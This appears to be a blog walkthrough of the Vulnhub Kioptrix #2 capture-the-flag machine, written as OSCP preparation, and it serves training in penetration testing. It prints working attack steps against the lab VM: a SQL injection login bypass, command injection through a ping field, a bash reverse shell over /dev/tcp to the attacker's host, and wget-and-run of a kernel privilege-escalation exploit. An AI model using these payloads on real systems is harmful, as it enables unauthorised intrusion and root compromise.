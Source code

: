 ```yaml
---
title: "Kioptrix #2 Walkthrough"
author: alex
date: Thu  7 Jul 16:15:48 CEST 2023
categories: [OSCP Prep,Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-08-kioptrix-2-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.1**. Or Kioptrix #2. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthrough **[here!](/posts/kioptrix-1-walkthrough)**

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Searchsploit
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.38    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.38
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.38
Host is up (0.00040s latency).
Not shown: 65528 closed tcp ports (reset)

PORT     STATE SERVICE  VERSION

22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f3e8b1e5863fecf27a318093b52cf72 (RSA1)
|   1024 346b453dbacecab25355ef1e43703836 (DSA)
|_  1024 684d8cbbb65abd7971b87147ea004261 (RSA)

80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)

111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            761/udp   status
|_  100024  1            764/tcp   status

443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de29f9fbfb2eb2beafe6243157090f
|_SHA-1: 560c91966506fb0ffb8166b1ded3ac112ed4808a
|_ssl-date: 2023-05-30T02:01:42+00:00; +5h59m59s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)

631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1

764/tcp  open  status   1 (RPC #100024)

3306/tcp open  mysql    MySQL (unauthorized)

MAC Address: 08:00:27:79:1B:6D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.006 days (since Mon May 29 21:52:38 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=206 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: 5h59m58s
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far.

- **Port 80/443:** Let's start with HTTP and HTTPS. We have both ports open so the first thing we are going to do is open the browser and search for http://192.168.1.38. We find a login page, let's keep going with the recon before trying anything here.

- **Other ports:** Visiting http://192.168.1.38:3306/ we see we are not allowed to connect to the MySQL server. 

Done with the recon then!

## Enumeration

Back to the login page. This cheap looking login form is crying for some **SQLi attempts**. And so we do!  As soon as we try the good ol' vanilla `admin' or 1=1 #` in the username text field and `1234` as password, we get access to the administrator page!

![SQL Injection](/login-sql-injection.png)

Now we see another text field for pinging hosts in the same network. Let's ping ourselves and check the output:

```
192.168.1.23

PING 192.168.1.23 (192.168.1.23) 56(84) bytes of data.
64 bytes from 192.168.1.23: icmp_seq=0 ttl=64 time=0.475 ms
64 bytes from 192.168.1.23: icmp_seq=1 ttl=64 time=1.05 ms
64 bytes from 192.168.1.23: icmp_seq=2 ttl=64 time=0.808 ms

--- 192.168.1.23 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.475/0.780/1.058/0.239 ms, pipe 2
```

Looks like the output we get when pinging from the console so... would it be vulbnerable to **Remote Code Execution**? Let's try to submit `192.168.1.23; whoami`

![Remote Code Execution](/remote-code-whoami.png)

Oh yeah! **Vulnerable to RCE!** We can `cat` the `/etc/passwd` to do some user enumeration as well:

![/etc/passwd File](/data-leak.png)

Now let's try to spawn a shell for us:

**On attaker's machine:**

```bash
sudo nc -nvlp 443
```

**In the ping text field:**

```bash
192.168.1.23; bash -i >& /dev/tcp/192.168.1.23/443 0>&1
```

And we have a shell! Now it's time to escalate privileges! First, let's find out the kernel version and the release.

![Shell](/shell.png)

```bash
uname -a
```

And we see that **kernel is 2.6.9**. Now, let's cat the release:

```bash
cat /etc/*-release
```

And the release is **CentOS 4.5**.

## Exploitation

Back to our machine, let's find an exploit that suits best for these features:

```bash
searchsploit linux 2.6 CentOS 
```

And there's an exploit that seems to fit our purpose. Let's mirror it into our machine:

```bash
searchsploit -m linux/local/9545.c
```

Now we have to copy it into the `/var/www/html` folder and start Apache.

```bash
sudo service apache2 start
```

Back to Kioptrix:

```bash
wget 192.168.1.23/9545.c
gcc 9545.c -o exploit
chmod 777 exploit
./exploit
```
![Root!](/root.png)

And there we go! Now we are root! I know, it's quite easy to hack into but, as I said, this is a beginner-friendly machine. It's good for learning the basics. See you soon and happy hacking!

